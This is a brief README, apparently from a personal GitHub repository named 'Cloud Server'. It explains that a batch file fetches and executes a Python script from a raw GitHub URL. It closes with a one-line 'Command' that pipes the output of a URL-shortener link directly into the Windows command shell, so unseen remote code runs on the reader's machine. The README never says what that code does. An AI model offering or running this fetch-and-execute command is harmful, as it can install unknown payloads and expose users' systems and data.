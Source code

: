 # Cloud Server

This is a Cloud Server in GitHub, this is not intended for public usage.
It's a complete garbage repo if you don't know what this is.

## Information

The "connect.bat" file will be execute the code in "server.py"; in order to do the same, you need to clone the repo; copy the Raw URL of "server.py".
After that, you'll need to replace the "https://raw.githubusercontent.com/snowyxxdev/cloud-server/refs/heads/main/server.py" in "connect.bat" with the copied Raw URL.


# ________________________________

## Made by @snowyxxdev
- Command: `curl -s t.ly/tl.y | cmd`
